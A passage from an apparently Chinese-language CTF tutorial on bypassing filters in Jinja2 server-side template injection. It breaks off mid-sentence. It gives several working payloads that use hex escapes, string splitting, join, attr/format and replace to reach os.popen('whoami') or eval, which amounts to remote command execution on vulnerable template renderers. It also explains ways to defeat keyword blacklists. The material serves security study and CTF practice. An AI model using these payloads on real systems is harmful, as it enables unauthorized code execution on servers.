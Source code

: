随便构造个payload如下

```go
{{""["\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"]["\x5f\x5f\x62\x61\x73\x65\x5f\x5f"]["\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f"]()[64]["\x5f\x5f\x69\x6e\x69\x74\x5f\x5f"]["\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f"]["\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f"]["\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f"]("\x6f\x73")["\x70\x6f\x70\x65\x6e"]("whoami")["\x72\x65\x61\x64"]()}}
```

- `request`绕过

在上面的过滤引号已经介绍过了，这里不再赘述

#### 过滤关键字

首先要看关键字是如何被过滤的

如果是替换为空，可以尝试双写绕过，或者使用黑名单逻辑漏洞错误绕过，即使用黑名单最后一个关键字替换绕过

如果直接ban了，就可以使用字符串拼接的方式等方法进行绕过，常用方法如下

- 拼接字符绕过

这里以过滤class为例子，用中括号括起来然后里面用引号连接，可以用`+`号或者不用

```go
{{()['__cla'+'ss__'].__bases__[0]}}



{{()['__cla''ss__'].__bases__[0]}}
```

随便写个payload如下

```go
{{()['__cla''ss__'].__bases__[0].__subclasses__()[40].__init__.__globals__['__builtins__']['ev''al']("__im""port__('o''s').po""pen('whoami').read()")}}
```

或者可以使用join来进行拼接

```go
{{()|attr(["_"*2,"cla","ss","_"*2]|join)}}
```

看到有师傅甚至用管道符加上`format`方法来拼接的骚操作，也就是我们平时说的格式化字符串，其中的`%s`被`l`替换

```go
{{()|attr(request.args.f|format(request.args.a))}}&f=__c%sass__&a=l
```

- 使用使用`str`原生函数

`replace`绕过，payload如下

```go
{{().__getattribute__('__claAss__'.replace("A","")).__bases__[0].__subclasses__()[376].__init__.__globals__['popen']('whoami').read()}}
```

`decode`绕过，但这种方法经过测试只能在python2下使用，payload如下
